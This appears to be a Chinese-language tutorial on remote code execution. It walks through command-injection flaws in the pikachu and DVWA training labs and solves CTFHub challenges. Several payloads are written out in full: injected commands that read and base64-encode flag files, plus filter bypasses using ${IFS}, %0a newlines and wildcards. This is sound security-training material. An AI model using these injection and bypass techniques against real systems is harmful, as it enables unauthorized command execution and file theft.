



# 远程代码执行

## RCE概述

	

	

	

命令注入的相关函数。

	

代码注入的相关函数

	

命令拼接符号是用于rce注入命令和代码的关键。

	

	

## pikachu靶场复现RCE漏洞

一般情况下是用来直接测试ping地址的。

	

分析源码,当传递ip地址不为空时，会根据windows和linux来执行不同的ping命令，shell_exec是用于执行命令的。

		

由于源码没有做任何过滤，可以注入额外的命令。这样可以获得服务器的网络信息。

	

分析另一个文件的源码,eval函数会把字符串当作php代码执行。

	

于是可以拿来获取php版本信息。

	

	

也可获取网络信息。

	

## dvwa靶场复现RCE漏洞

low级别，根本就没有做任何过滤。

	

medium级别，分析源码，只对&&和;关键字做了过滤,所以仍然可以使用&进行拼接。

	

	

high级别源码分析，发现对所有关键字都做了过滤。但是其中|多了一个空格，于是我们可以不加空格来绕过注入命令。

	

	

impossible级别，分析源码可以得知，首先先通过expload函数，遇到.符号就进行划分，于是可以把ip地址分成四个元素的数组。再通过if判断是否为数字，若为数字才会执行ping命令，否则执行失败。

	

## CTF案例

### eval执行


分析源码得知，通过cmd进行参数传递，eval可以执行任何代码，于是可以用中国蚁剑连接

	

	

获取ctfhub即可提交完成此关卡。

	

### 命令注入

	

由于是linux可以利用分号多注入一个命令。

	

通过这个payload获取这个对应文件的内容，如果不加base64将无法得知这个php里面的内容。

```
127.0.0.1;cat 8512088223165.php|base64
```

	

进行base64解码，赋值ctfhub即可完成关卡。

	

	

### 过滤cat


首先得知对应的flag文件。

	

由于过滤了cat,那么可以使用less来进行查看，再通过base64解码即可完成此关。

```
127.0.0.1;less flag_291341651428000.php|base64
```

	

### 过滤空格

	

先通过ls，发现flag文件。

	

由于空格被过滤了，但是shell命令可以使用${IFS}来代替空格使用。这样可获取base64编码的值，解码即可得到flag结果

```
payload:
127.0.0.1;cat${IFS}flag_49488560443.php|base64
```

	

### 过滤目录分隔符

	

flag文件再此目录下，但是/分隔符被过滤，所以我们需要进入该目录才能获取flag文件内容。

	

切换目录得知是哪个flag文件。

```
127.0.0.1;cd flag_is_here;ls
```

	

查看该文件，解码复制flag提交即可通关。

```
127.0.0.1;cd flag_is_here;cat flag_16858894424626.php|base64
```

	

### 过滤运算符

		

通过源码分析过滤了很多运算符，唯独没有过滤;

并且由于过滤了管道符|,那么用另一种写法来base64编码该文件。然后解码即可获得结果。

```
payload:
127.0.0.1;base64 flag_325321801915751.php
```

	

### 综合过滤练习

	

分析源码得知，对分号以及空格符号等等运算符都过滤掉了，并且也对flag、cat等关键字进行过滤。

	

其中;可以通过%0a换行符来代替掉，所以需要在url来填写payload，得知flag文件在该目录下。

```
http://challenge-5b40c109a9221c66.sandbox.ctfhub.com:10800/?ip=127.0.0.1%0als
```

	

由于过滤了flag关键字，我们可以通过*号来代替。

```
payload:
http://challenge-5b40c109a9221c66.sandbox.ctfhub.com:10800/?ip=127.0.0.1%0acd${IFS}f***_is_here%0als
```

	

由于过滤cat和管道符|,那么可以直接使用base64直接获取。

```
payload:
其中%0a是换行符,${IFS}是空格符,f***用于替代flag
http://challenge-5b40c109a9221c66.sandbox.ctfhub.com:10800/?ip=127.0.0.1%0acd${IFS}f***_is_here%0abase64${IFS}f***_23558566620213.php
```

	

## RCE防御

	


